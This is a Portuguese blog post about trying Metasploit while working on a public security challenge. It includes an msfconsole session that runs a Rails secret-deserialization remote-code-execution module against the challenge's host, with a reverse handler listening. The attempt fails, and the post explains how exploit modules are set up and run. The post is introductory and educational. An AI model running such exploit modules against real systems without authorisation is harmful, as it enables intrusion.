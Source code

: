 ```yaml
---
title: "[Small Bite] Brincando com Metasploit"
date: '2014-08-27T14:03:00-03:00'
slug: small-bite-brincando-com-metasploit
tags:
- metasploit
- security
draft: false
---
```


Ontem o [@joernchen](https://twitter.com/joernchen) mandou um pequeno [desafio básico de segurança](https://twitter.com/joernchen/status/504304803045208064) pra comunidade. Ele postou um código de uma pequena aplicação, colocou ela no ar, e nos desafiou a resetar a senha do administrador.
  
Confesso que demorei mais do que gostaria mas no fim eu consegui - e foi simples (post sobre isso vem depois).
  
No caminho eu acabei explorando o [Metasploit](http://www.metasploit.com), provavelmente um dos melhores e mais conhecidos pacotes de testes de penetração de segurança. E alguns não sabem disso mas ele não só é código-aberto (existem ferramentas e serviços pagos) como é uma aplicação Rails! Então vale muito a pena acompanhar esse projeto.

O @joernchen já [contribuiu no código](https://github.com/rapid7/metasploit-framework/commits?author=joernchen) do Metasploit incluindo o famigerado exploit para [Remote Code Execution no Rails](https://github.com/rapid7/metasploit-framework/commit/7f3eccd64453c3708ad4cb7ed7a6ea18354bac3d) (calma, as versões novas já não tem mais isso!)

Instalar o Metasploit no seu sistema é simples. Este [blog post](http://www.darkoperator.com/installing-metasploit-in-ubunt/) descreve como. Ele começa falando para baixar um script que faz tudo mas, se você usa RVM ou RBenv ou não usa Ubuntu, faça na mão, é mais simples. Não vou repetir o que já está no post então acompanhe lá.

No final, você deve ter o metasploit instalado e com o comando <tt>msfconsole</tt> a partir de onde já dá pra começar a brincar. Por exemplo, uma das coisas que eu tentei ver foi se o aplicativo do desafio sofria o problema de remote code execution que mencionei acima, pra isso, uma vez dentro do console eu fiz:

---
msf exploit(rails_json_yaml_code_exec) > use exploit/multi/http/rails_secret_deserialization
msf exploit(rails_secret_deserialization) > set RHOST getthisadmin.herokuapp.com
msf exploit(rails_secret_deserialization) > set TARGETURI /reset/_csrf_token
msf exploit(rails_secret_deserialization) > run
[*] Started reverse handler on 192.168.47.172:4444
[*] Checking for cookie _csrf_token
[!] Caution: Cookie not found, maybe you need to adjust TARGETURI
[*] Trying to leverage default controller without cookie confirmation.
[*] Sending cookie _csrf_token
msf exploit(rails_secret_deserialization) > exit
---

E podemos ver que o problema não é esse. No Metasploit você carrega um dos muitos módulos de exploit que quer explorar (veja [lista no próprio código fonte](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/multi/http)). Cada exploit tem várias opções pra configurar (execute <tt>show options</tt> para mostrar as configurações). Use o comando <tt>set</tt> para configurar com o site que quer explorar. Finalmente, rode com <tt>run</tt> para executar e ver se tem o exploit ou não.

Eu mesmo não sou um expert em segurança mas conheço o básico e explorar o Metasploit pode ser uma excelente fonte para você entender como funcionam exploits de segurança. O código de cada módulo é em Ruby e é muito fácil de ler.

E já descobriram o desafio do @joernchen? Neste post eu já dei uma grande dica ;-) Comentem se conseguiram, mas não dêem a resposta ainda pra todo mundo poder testar.
